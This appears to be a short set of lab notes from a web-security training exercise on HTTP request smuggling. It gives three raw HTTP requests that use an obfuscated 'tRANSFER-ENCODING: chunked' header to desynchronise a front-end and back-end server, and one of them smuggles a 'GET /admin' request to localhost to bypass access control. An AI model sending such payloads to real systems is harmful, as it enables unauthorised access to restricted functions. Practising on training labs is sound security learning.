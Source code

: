 after a few reqs

POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0

---

POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 12
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
70
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

---

POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0

---

Response:
